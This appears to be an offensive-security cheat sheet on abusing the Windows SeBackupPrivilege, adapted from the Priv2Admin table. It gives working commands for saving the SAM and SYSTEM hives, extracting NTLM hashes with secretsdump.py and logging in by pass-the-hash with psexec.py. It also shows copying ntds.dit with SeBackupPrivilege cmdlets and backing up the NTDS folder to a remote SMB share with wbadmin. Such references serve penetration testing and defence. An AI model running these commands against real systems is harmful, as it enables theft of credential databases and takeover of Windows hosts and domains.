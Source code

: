 # SeBackupPrivilege

From [gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)

| Privilege | Impact | Tool | Execution path | Remarks |
| --- | --- | --- | --- | --- |
|`SeBackup`| ***Admin*** | 3rd party tool <br><br> Sensitive files access (in combination with `SeRestore`): <br> ***Built-in commands*** | 1. Enable the privilege in the token <br><br> 2. Export the `HKLM\SAM` and `HKLM\SYSTEM` registry hives:<br> `cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"` <br><br> 3. Eventually transfer the exported hives on a controlled computer <br><br> 4. Extract the local accounts hashes from the export `SAM` hive. For example using `Impacket`'s `secretsdump.py` Python script: <br> `secretsdump.py -sam SAM -system SYSTEM LOCAL` <br><br> 5. Authenticate as the local built-in `Administrator`, or another member of the local `Administrators` group, using its `NTLM` hash (Pass-the-Hash). For example using `Impacket`'s `psexec.py` Python script: <br> `psexec.py -hashes ":<ADMINISTRATOR_NTLM>" <Administrator>@<TARGET_IP>` <br><br> Alternatively, can be used to read sensitive files with `robocopy /b` | - `User Account Control` may prevent Pass-the-Hash authentications with the local accounts but by default the built-in `Administrator` (RID 500) account is not concerned (as `FilterAdministratorToken` is disabled by default). <br><br> - Pass-the-Hash authentications can be attempted over (at least) the following services: `SMB` (port TCP 445), `SMB` over `NetBIOS` (port TCP 139), `WinRM` (ports TCP 5985 / 5986), or `RDP` if the `Restricted Admin` feature is enabled server side (port TCP 3389). <br><br> - Access to sensitive files may be more interesting if you can read `%WINDIR%\MEMORY.DMP`. <br><br> - `SeBackupPrivilege` is not helpful when it comes to open and write to files as it may only be used to copy files. <br><br> - Robocopy requires both `SeBackup` and `SeRestore` to work with the `/b` parameter (which are both granted to members of the `Backup Operators` group by default). <br> Instead, [`Copy-FileSeBackupPrivilege`](https://github.com/giuliano108/SeBackupPrivilege) can be used to backup files through a process with only the `SeBackup` privilege in its token: <br> `Import-Module .\SeBackupPrivilegeUtils.dll` <br> `Import-Module .\SeBackupPrivilegeCmdLets.dll` <br> `Set-SeBackupPrivilege` <br> `Copy-FileSeBackupPrivilege <SOURCE_FILE> <DEST_FILE>` |

Referenced in the table above is [giuliano108's SeBackupPrivilege PoC](https://github.com/giuliano108/SeBackupPrivilege) *"Use SE_BACKUP_NAME/SeBackupPrivilege to access objects you shouldn't have access to"*
```powershell
PS C:\scripts> Import-Module .\SeBackupPrivilegeUtils.dll
PS C:\scripts> Import-Module .\SeBackupPrivilegeCmdLets.dll
# Set privileges that have been disabled
PS C:\scripts> Set-SeBackupPrivilege
PS C:\scripts> Get-SeBackupPrivilege
# Copy hard to reach files
Copy-FileSeBackupPrivilege .\report.pdf c:\temp\x.pdf -Overwrite
# Like
Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\windows\temp\NTDS -
Overwrite
Copy-FileSeBackupPrivilege h:\windows\system32\config\SYSTEM
c:\windows\temp\SYSTEM -Overwrite
```

If for some weird reason you can backup files to remote SMB share that is not even domain joined. 
```powershell
# Do not use impacket-smbserver as require NTFS/ReFS 

echo "Y" | wbadmin start backup -backuptarget:\\$IP\Share -include:c:\windows\ntds

wbadmin get versions

echo "Y" | wbadmin start recovery -version:$TIMEFROMVERSION -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

## References

[gtworek/Priv2Admin](https://github.com/gtworek/Priv2Admin)
[giuliano108's SeBackupPrivilege PoC](https://github.com/giuliano108/SeBackupPrivilege)
